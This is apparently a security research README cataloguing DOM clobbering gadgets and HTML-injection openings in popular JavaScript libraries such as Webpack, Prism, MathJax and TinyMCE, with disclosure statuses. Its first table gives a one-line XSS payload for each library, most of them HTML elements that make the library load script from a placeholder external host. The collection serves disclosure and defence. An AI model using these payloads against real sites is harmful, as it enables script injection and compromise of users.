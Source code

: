 # DOM Clobbering Collection

This repository lists client-side libraries that are vulnerable to HTML injection or contain DOM Clobbering gadgets that can result in severe issues like XSS.

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | Status | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:------:|:---:|
| [AddToAny](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md) | N/A | N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | N/A |
| [doomcaptcha](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md) | 1K | latest | ```<img name="currentScript" label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | Mitre | N/A |
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | N/A | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”></iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert(1)</iframe>``` | XSS | TheHulk | Patched | N/A |
| [Google Closure](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | 4.9K | v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | Accepted | N/A |
| [inspire.js](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/inspire.js.md) | 1.7k | v1.10 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax2.md) | 10.1K | v2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Accepted | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 10.1K | v3.2.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | Accepted | N/A |
| [Mavo](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mavo.md) | 2.8K | v0.3.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [pagefind](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md) | 3.3K | v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [polyfills](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/polyfills.md) | 1.1K | v2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A | N/A |
| [Prism](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/prism.md) | 12.2K | v1.29.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [rspack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/rspack.md) | 8.6K | v1.0.0-rc.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | N/A | N/A |
| [squirt](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/squirt.md) | 1.2K | v0.0.1 | ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">``` | XSS | TheHulk | N/A  | N/A |
| [Stage.js](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/stage.js.md) | 2.4K | v1-alpha | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [steal](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/steal.md) | 1.4K | v2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>``` | XSS | TheHulk | Mitre | N/A |
| [tsup](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tsup.md) | N/A | N/A | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | N/A | N/A |
| [UMeditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/umeditor.md) | 1.4K | v1.2.2 | ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>``` | XSS | TheHulk | Reported | N/A |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 64.4K | v5.93.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |

## HTML Injection Vulnerabilities

The following libraries accept user input and output content as `type/html` with certain named attributes (e.g., `id` or `name`) preserved at different levels of capability. Using these libraries may expose web applications to HTML injection risks. Libraries may directly insert user input into the DOM, or the web application may retrieve the user input from the library and then add it to the DOM.

| Library | Stars | Version | Input | Sanitizer | Capability | Status | CVE |
|:-------:|:-----:|:-------:|-------|:---------:|-------------------------|:------:|:---:|
| [Froala](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/froala.md) | 5.3K | v4.2.2 | Copy&Paste | DOMPurify | Any `name` attributes | N/A | N/A |
| [RichTextEditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/richtexteditor.md) | N/A | Latest | Copy&Paste | N/A | Any named property | N/A | N/A |
| [SunEditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/sun-editor.md) | 1.7K | v2.47.0 | Copy&Paste | N/A | `a` tag with `id` | N/A | N/A |
| [TinyMCE-v5/6/7](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tinymce.md) | 14.9K | v7.3.0 | Copy&Paste | DOMPurify | Any named property without collision | N/A | N/A |
| [TinyMCE-v4](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tinymce4.md) | 14.9K | v4.9.11 | Copy&Paste | N/A | Any named property | N/A | N/A |
| [tui.editor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tui-editor.md) | 17.1K | v3.2.2 | Type | DOMPurify | Any named property without collision  | N/A | N/A |
